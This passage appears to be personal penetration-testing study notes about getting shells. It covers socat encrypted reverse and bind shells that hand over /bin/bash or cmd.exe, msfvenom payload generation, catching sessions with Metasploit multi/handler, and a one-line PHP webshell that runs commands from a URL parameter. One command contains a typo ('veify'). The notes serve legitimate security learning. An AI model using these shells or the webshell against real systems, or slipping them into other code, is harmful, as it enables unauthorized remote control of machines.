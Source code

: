 This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.
Then to connect back we can use
```sh
socat OPENSSL:<local-ip>:<local-port>,verify=0 EXEC:/bin/bash
```

The same applying for a bind shell
Target:
```sh
socat OPENSSL-LISTENER:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Attacker:
```sh
socat OPENSSL:<target-ip>:<target-port>,veify=0 -
```


## msfvenom
The GOAT. Part of the [[Metasploit#Msfvenom|Metasploit]] framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a [[Buffer Overflow]] exploit. However, it can also be used to generate payloads in various formats. It's this latter function that is really useful.
The standard syntax for msfvenom is as follows
`msfvenom -p <payload> <options>`


## Metasploit multi/handler
Multi/Handler is the tool for catching reverse shells. It is essential if we want to use Meterpreter shells, and is the go-to when using staged payloads. To use it we only need to open Metasploit with `msfconsole` and type `use multi/handler`. We are now primed to start a multi/handler session.
We can look at the available options using the `options` command.
From here we need to set three options: LHOST, LPORT, payload.
Now we can start the listener with `exploit -j`, this tells Metasploit to launch the module, running as a job in the background.
When the staged payload generated with msfvenom is run, Metasploit receives the connection, and sends the remainder of the payload and gives us a reverse shell.

## WebShells
There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. 
An example of a very basic one-liner for PHP can be 
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.
